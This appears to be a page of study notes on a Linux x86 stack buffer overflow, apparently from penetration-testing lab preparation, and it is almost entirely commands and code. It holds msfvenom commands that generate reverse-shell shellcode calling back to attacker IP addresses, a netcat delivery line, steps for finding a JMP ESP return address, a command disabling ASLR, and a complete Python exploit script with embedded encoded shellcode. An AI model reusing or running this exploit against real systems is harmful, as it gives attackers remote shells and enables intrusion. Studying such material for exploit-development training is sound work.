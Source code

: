 ```bash
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.0 LPORT=22 EXITFUNC=thread -b "\x00" -f raw -o shellcode
4. Deliver the payload (one way is shown here that is only applicable to certain cases)
cat shellcode - | nc 192.168.0.0 8000


# Finding a Return Address
EDB > Plugins > OpCodeSearcher
- Select Jump Equivalent ESP -> EIP
- Choose a region with at least read and execute permissions
- Once we find JMP ESP instruction, write it backwards on the retn variable
# NOTE: If we check twice JMP ESP address and see it is constantly changing, we have to disable ASLR on our Kali
# First remember the value it had to revert it later
cat /proc/sys/kernel/randomize_va_space
# Now we disable random relocation on Kali
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
# Then we can repeat the method to find a return address
We find 0x5e9a515e so our retn
retn = b"\x5e\x51\x9a\x5e"
# To check if works
- Set a breakpoint on that JMP ESP address (EDB > Plugins > Breakpoint Manager)
- When it reaches that BP, check if EIP has that value
- Single step-into to enter the ESP and check if EAX points at the beginning of our code


# Getting a shell (be careful with architecture x86/x64 and payload staged/non-staged)
https://www.win.tue.nl/~aeb/linux/lk/lk-5.html
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.195 LPORT=5000 EXITFUNC=thread -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc" -f py -v shellcode

# We have to prepend some NOPs to make some space
nops = b"\x90" * 16


# AND THIS IS THE FINAL SCRIPT:
#!/usr/bin/python3

offset = "A" * 98
offset = offset.encode('utf-8')

retn = b"\x5e\x51\x9a\x5e"

nops = b"\x90" * 16

#msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.195 LPORT=5000 EXITFUNC=thread -b "\x00\x0a\x0d\x1a\x20\x43\x75\x9e\xbc" -f py -v shellcode
shellcode =  b""
shellcode += b"\x29\xc9\x83\xe9\xef\xe8\xff\xff\xff\xff\xc0"
shellcode += b"\x5e\x81\x76\x0e\x8f\x3b\x07\x03\x83\xee\xfc"
shellcode += b"\xe2\xf4\xbe\xe0\xf0\xe0\xdc\x78\x54\x69\x8d"
shellcode += b"\xb2\xe6\xb3\xe9\xf6\x87\x90\xd6\x8b\x38\xce"
shellcode += b"\x0f\x72\x7e\xfa\xe7\xfb\xaf\x74\x4c\x53\x05"
shellcode += b"\x03\x9c\xb3\x8e\xe2\x3f\x5d\x57\x52\xdc\x88"
shellcode += b"\x04\x8a\x6e\xf6\x87\x51\xe7\x55\x28\x70\xe7"
shellcode += b"\x53\x28\x2c\xed\x52\x8e\xe0\xdd\x68\x8e\xe2"
shellcode += b"\x3f\x30\xca\x83"

f = open("exploit.txt", "wb") 
f.write(offset)
f.write(retn)
f.write(nops)
f.write(shellcode)
```